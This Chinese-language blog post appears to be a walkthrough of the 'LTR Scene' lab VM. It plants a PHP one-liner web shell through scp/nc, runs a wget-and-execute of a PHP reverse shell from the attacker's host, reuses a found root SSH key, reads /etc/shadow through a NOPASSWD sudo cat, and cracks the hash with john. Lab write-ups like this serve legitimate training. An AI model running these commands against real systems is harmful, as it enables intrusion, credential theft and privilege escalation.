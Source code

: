```yaml
---
title: LTR Scene（php写入一句话+sudoer提权）
categories:
- training
tags:
- training
---
```

以前的步骤经常看到一个感兴趣的点，然后就一直死磕ORZ

[发现登陆页面，就开始尝试检查弱密码](https://whale3070.github.io/training/2018/10/29/ch4inrulz-Apache-.htaccess%E5%8F%88%E6%98%AF%E5%A5%97%E8%B7%AF/)
实际上如果检查到备份文件泄露，很快就可以突破登陆表单。

[发现backup文件下载，从猜测直接跳到尝试，步骤错了。。](https://whale3070.github.io/training/2018/10/13/node-%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2+%E5%AF%86%E7%A0%81%E5%AD%A6%E7%9B%B8%E5%85%B3/)

所以踩点这一步的确没有做好。

---

## 踩点
```
21/tcp    open   ftp        ProFTPD 1.3.1 Server
22/tcp    open   ssh        OpenSSH 5.1 (protocol 1.99)
80/tcp    open   http       Apache httpd 2.2.13 ((Unix) DAV/2 PHP/5.2.10)
Linux 2.6.X
```
第一点，不要相信任何扫描结果。

#### 80:
http://192.168.2.120/logs/ 403
http://192.168.2.120/cgi-bin/ 403
- info1: 
```
index.php
<!-- username:logs password:zg]E-b0]+8:(58G -->
```
- info2:
```
一个邮箱dev@21ltr.com
源码发现了一个口令，经过尝试确认ftp口令可以登录。
```

#### 21:
info2: 检查过匿名登陆
- 下载了一个php文件
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/1.PNG)
lcd /root/Desktop
get backup_log.php 
- ftp权限可读不可写
```
lcd /root/Desktop
put
a.php（上传本地a.php）
a.php（把选中的文件，以a.php写入服务器）
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/2.PNG)

- 看来只能检查这个php脚本了。
```
<?php $log = time(); echo '<center><b>GMT time is: '.gmdate('r', $log).'</b></center>'; ?>          
```
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/3.PNG)
该脚本的作用：生成现在的时间戳，然后记录下发生错误的记录。
没有任何提权思路。

## 22 ssh：
[exp](https://www.exploit-db.com/exploits/45233/)
```
python 45233.py --port 22 --username logs 192.168.2.120
logs is not a valid user!
```

---

## 10001： scp
一开始发现了10001开放，可是具体去扫描的时候，又关闭了，所以以为是误报。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/4.PNG)
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/5.PNG)

---

首先将kali改为192.168.2.240，ftp泄露的log提示。
scp会将文件发送到这个ip。

第二步建立一个文本文件，写入一句话。
`<?php system($_GET['cmd']) ?> `

第三步执行监听。

```
nc -nvlp 10000 > file.gz && nc -nv 192.168.2.120 10001 < text  
```
分为两条命令，第一条，监听本地10000端口，如果有连接进来，就发送到file.gz。第二条，将text文件发送到指定ip和端口。

注意：&& 和 ；的区别（linux shell）
&&正确执行完第一条，才执行第二条。
； 分别执行，命令之间不相关。

第四步，稍等一会儿nc显示，靶机连进来了==，并传递了一个备份文件。
在这里，我检查过backup_log.php，确认没有漏洞。但是居然可以利用scp写入system函数，让这个文件可以执行命令！真的出乎意料。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/6.PNG)

---

接下来就简单了，[以前学过](https://whale3070.github.io/training/2017/11/02/g0rmint-%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%86%99%E5%85%A5log-%E6%8F%90%E6%9D%83/)

>info: /var/www/htdocs/logs
Linux slax 2.6.27.27

准备php反弹shell脚本。

```
kali: python -m SimpleHTTPServer 888
		nc -lnvp 1234
```

`cd /tmp;wget http://192.168.2.240:888/php-reverse-shell.php;chmod +x php-reverse-shell.php;./php-reverse-shell.php`
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/7.PNG)

现在是apache用户

---
查找ssh密钥
find . -name "id_rsa" 2> /dev/null
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/8.PNG)

```
./mnt/live/mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa           root root 1675 Jan  5  2008 
./mnt/live/memory/changes/media/USB_1/Stuff/Keys/id_rsa
./mnt/hdc/slax/rootcopy/media/USB_1/Stuff/Keys/id_rsa
./media/USB_1/Stuff/Keys/id_rsa
root root 1675 Jan  5  2008
```
尝试后，以hbeale用户登陆
```
chmod 600 key
ssh -i key hbeale@192.168.2.120  
```
现在是普通用户权限

---
## sudo权限错误

以前遇到过关于sudo权限的 [target](https://whale3070.github.io/training/2018/04/16/x/)

#### visudo
以root用户运行visudo命令，可以修改/etc/sudoers。

```
`# User privilege specification`
root ALL=(ALL) ALL
xx ALL=(ALL) ALL
```

如果sudoers文件中，有上述代码。说明xx用户可以用sudo执行任何命令（以root权限）

sudoers文件只有root账号才能查看并且修改。

#### sudo -l
用户hbeale执行该命令，查看sudoers权限。
```
User hbeale may run the following commands on this host:  
    (root) NOEXEC: /bin/ls, (root) /usr/bin/cat, (root) /usr/bin/more, (root)  
    !/usr/bin/su *root*  
    (root) NOPASSWD: /usr/bin/cat  
```
最后一行NOPASSWD，说明sudo命令运行/usr/bin/cat的时候，不需要输入密码。

于是sudo cat /etc/shadow
获取到了root加密的口令 `$1$VW5E9DmD$deoML8uqU/4HaTmNmfM7G1`

---

#### 破解/etc/shadow
将口令写入pass.txt

john --wordlists=/usr/share/wordlists/rockyou.txt pass.txt

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-10/9.PNG)

su root，提权成功。


